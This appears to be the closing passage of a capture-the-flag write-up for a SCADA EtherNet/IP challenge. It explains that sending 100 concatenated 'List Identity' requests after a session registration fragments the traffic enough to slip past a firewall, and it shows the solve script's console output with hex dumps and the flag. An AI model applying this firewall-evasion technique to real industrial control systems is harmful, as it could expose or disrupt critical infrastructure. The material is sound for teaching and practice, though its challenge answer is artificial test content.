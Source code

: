 ```python
log.success(f"Flag: {list_identity['items'][0]['product_name'].decode()}")
```

The script sends a "Register Session", extracts the session handle from the response, builds a single "List Identity" request and sends it concatenated `100` times in order to achieve easy fragmentation from the underlying network layers. This bypasses the firewall and provides us with the flag:

```console
┌──(user@kali)-[/media/sf_CTFs/intent/No_Identity_For_You]
└─$ python3 solve.py
[+] Opening connection to scada-enip-fw.chal.intentsummit.org on port 44818: Done
[*] Sending 'Register Session' request:
    00000000  65 00 04 00  00 00 00 00  00 00 00 00  00 00 00 00  │e···│····│····│····│
    00000010  00 00 00 00  00 00 00 00  01 00 00 00               │····│····│····│
    0000001c
[*] Received 'Register Session' response:
    Container:
        command = Container:
            RegisterSession = True
        length = 4
        session_handle = 2095216381
        status = 0
        sender_context = b'\x00\x00\x00\x00\x00\x00\x00\x00' (total 8)
        options = 0
        data = b'\x01\x00\x00\x00' (total 4)
[*] Session handle: 0x7ce276fd
[*] Single 'List Identity' request:
    00000000  63 00 00 00  fd 76 e2 7c  00 00 00 00  00 00 00 00  │c···│·v·|│····│····│
    00000010  00 00 00 00  00 00 00 00                            │····│····│
    00000018
[*] Sending 100 concatenated messages
[*] Response: Container:
        command = Container:
            ListIdentity = True
        length = 61
        session_handle = 2095216381
        status = 0
        sender_context = b'\x00\x00\x00\x00\x00\x00\x00\x00' (total 8)
        options = 0
        data = b'\x01\x00\x0c\x007\x00\x01\x00\x00\x02\xaf\x12\n\x00\x00\x04'... (truncated, total 61)
[*] Response Data:
    Container:
        item_count = 1
        items = ListContainer:
            Container:
                item_type_code = 12
                item_length = 55
                protocol_version = 1
                socket_address = b'\x00\x02\xaf\x12\n\x00\x00\x04\x00\x00\x00\x00\x00\x00\x00\x00' (total 16)
                vendor_id = 1
                device_type = 14
                product_code = 54
                revision = b'\x14\x0b' (total 2)
                status = 12640
                serial_number = 7079450
                product_name_len = 21
                product_name = b'INTENT{sc4d4_is_'... (truncated, total 21)
                state = 255
[+] Flag: INTENT{sc4d4_is_3a5y}
[*] Closed connection to scada-enip-fw.chal.intentsummit.org port 44818
```